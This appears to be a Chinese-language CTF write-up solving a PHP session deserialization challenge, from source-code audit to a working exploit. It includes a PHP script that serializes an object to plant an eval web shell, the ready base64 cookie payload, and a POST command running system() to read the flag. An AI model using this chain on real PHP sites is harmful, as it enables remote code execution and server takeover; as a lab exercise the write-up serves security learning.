 # 知识点
[深入浅析PHP的session反序列化漏洞问题_php实例_脚本之家](https://www.jb51.net/article/116246.htm)
# 思路
本题考查session反序列话漏洞<br />相关讲解 [深入浅析PHP的session反序列化漏洞问题_php实例_脚本之家](https://www.jb51.net/article/116246.htm)<br />我们登录进去只有一个登录页面和check.php<br />用dirsearch扫一下，发现www.zip文件，访问下载下来是网站源码。<br />代码审计后主要有几个关键区域。<br />在index.php 17行 我们发现$_SESSION['limit']我们可以进行控制
```plsql
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
```
flag在flag.php处，目测需要rce
```plsql
$flag="flag_here";
```
inc.php 设置了session的序列化引擎为php，很有可能说明默认使用的是php_serialize
```plsql
ini_set('session.serialize_handler', 'php');
```
并且inc.php中有一个User类的__destruct含有file_put_contents函数，并且username和password可控，可以进行文件包含geshell
```plsql
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
```
开始构造EXP，生成payload
```plsql
<?php
  class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
  }

  $a = new User('1.php', '<?php eval($_POST[Ki1ro]) ?>');
  $a->setStatus('成功');
  echo base64_encode('|'.serialize($a));
?>

```
在开发者工具的控制台替换cookie
```plsql
document.cookie='limit=
fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czoyODoiPD9waHAgZXZhbCgkX1BPU1RbS2kxcm9dKSA/PiI7czo2OiJzdGF0dXMiO3M6Njoi5oiQ5YqfIjt9
'
```
访问index.php改写$_SESSION['limit']<br />再访问inc/inc.php触发会话，将shell写入log-1.php<br />最后访问log-1.php传参获取flag
```plsql
POST Ki1ro=system("tac flag.php")
```
![image.png](./images/20231017_2356524109.png)
